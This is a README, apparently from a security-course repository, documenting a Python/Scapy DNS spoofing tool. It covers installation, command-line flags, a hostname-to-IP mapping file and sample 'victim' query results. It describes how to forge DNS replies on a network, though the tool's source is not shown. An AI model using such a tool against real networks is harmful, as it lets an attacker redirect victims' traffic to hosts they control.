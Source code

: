 # Offensive_Computer_Security
# DNS Spoofer Tool

A simple DNS spoofing and relay tool written in Python using Scapy. It listens for DNS queries on a specified network interface and either forges responses for configured hostnames or relays queries to an upstream DNS server.

---

## Features

* **Targeted Spoofing**: Only spoof domains defined in a YAML mapping file (supports exact names and `*.suffix` wildcards).
* **Relay Mode**: Forward all other queries to a real upstream DNS server and return their answers.
* **Lightweight**: Pure Python with Scapy; no external DNS libraries required.
* **Clean Shutdown**: Handles `Ctrl-C` for a graceful exit.

---

## Requirements

* Python 3.6+
* `scapy`
* `PyYAML`

Install dependencies:

```bash
sudo apt update
sudo apt install python3-pip python3-setuptools libyaml-dev
sudo pip3 install scapy[complete] pyyaml
```

---

## Installation

1. Clone this repository (or copy `dns.py` and `mapping.yml`).
2. Make  the script is executable:

   ```bash
   chmod +x dns.py
   ```

---

## Usage

```bash
sudo python3 dns.py -i <interface> -m <mapping-file> [--relay] [--upstream <server>]
```

* `-i`, `--iface` : Network interface to listen on (e.g., `eth0`).
* `-m`, `--map`   : Path to the YAML mapping file.
* `--relay`      : Relay unmatched queries to the upstream server.
* `--upstream`   : IP address of upstream DNS (default: `8.8.8.8`).

### Example

Given a `mapping.yml`:

```yaml
legit.example.local: 5.6.7.8
*.test.local:      9.9.9.9
```

Run the spoofer on interface `enp0s3` in spoof-only mode:

```bash
sudo python3 dns.py -i enp0s3 -m mapping.yml
```

**On the victim** (configured to use the attacker as DNS):

```bash
$ dig +short legit.example.local
5.6.7.8

$ dig +short foo.test.local
9.9.9.9

$ dig +short other.com
# no reply (unless --relay is used)
```

To enable relay mode so that other domains still resolve correctly:

```bash
sudo python3 dns.py -i enp0s3 -m mapping.yml --relay --upstream 10.0.0.1
```

Then:

```bash
$ dig +short other.com
93.184.216.34   # real answer from upstream
```

---

## How It Works

1. **Sniff**: Captures UDP port 53 packets on the chosen interface.
2. **Match**: Checks each query name against the mapping (exact + `*.suffix`).
3. **Spoof**: Crafts a DNS reply (A record, TTL=300s) with the forged IP.
4. **Relay**: If enabled and no match, forwards raw DNS queries to upstream and returns their answers.

Internals:

* Uses Scapy to build and send packets (handles checksums).
* Runs in a daemon thread for easy shutdown.
* Validates mapping file for correct IP syntax.


